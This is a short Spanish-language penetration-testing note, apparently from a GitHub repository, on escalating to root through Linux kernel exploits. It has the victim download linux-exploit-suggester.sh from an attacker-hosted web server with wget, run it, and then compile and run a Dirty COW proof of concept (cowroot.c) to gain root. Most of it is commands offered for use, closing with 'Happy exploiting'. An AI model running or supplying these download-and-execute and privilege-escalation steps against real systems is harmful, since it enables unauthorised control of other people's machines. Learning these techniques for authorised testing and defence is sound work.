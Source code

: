 # Kernel exploits

Se puede vulnerar y escalar privilegios explotando vulnerabilidades a nivel de kernel

## Vector de ataque

En esencia el vector de ataque es el siguiente:

1. Montar servidor web en atacante
2. Descargar linux-exploit-suggester.sh
3. Ejecutar binario
4. Descargar exploit
5. Compilar y ejecutar exploit

## Maquina atacante
### Descargar linux-exploit-suggester.sh

Si no se puede descargar en la maquina victima el ejecutable se debe descargar en la maquina atacante y montar server.

Para ello hacemos lo siguiente

```
git clone https://github.com/The-Z-Labs/linux-exploit-suggester.git
cd linux-exploit-suggester/
```
### Montar web
Montamos un servicio web para que la maquina victima pueda descargar el archivo (haremos lo mismo para el exploit)

```
python3 -m http.server 80 #Host
```

### Descargar archivos (Victima)
Teniendo la ip del atacante descargamos el archivo de la siguiente manera

```
cd /tmp
wget xx.xx.xx.xx/linux-exploit-suggester.sh #Victim
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```

Esto arrojará un listado de exploit posibles, buscamos los que estan a nivel de kernel y lo buscamos en exploit-db.com

En este caso particular veremos que hay un exploit asociado a dirtycow.

### Exploit

Siguiendo el mismo ejercicio de linux exploit suggester, descargamos algun poc de dirty cow (recomiendo este:  https://gist.github.com/rverton/e9d4ff65d703a9084e85fa9df083c679)

suponiendo que le pusimos cowroot.c en la maquina victima compilamos

```
gcc cowroot.c -o cowroot -pthread
./cowroot
```
Con eso escalamos a root.

---
Happy exploiting - Zpx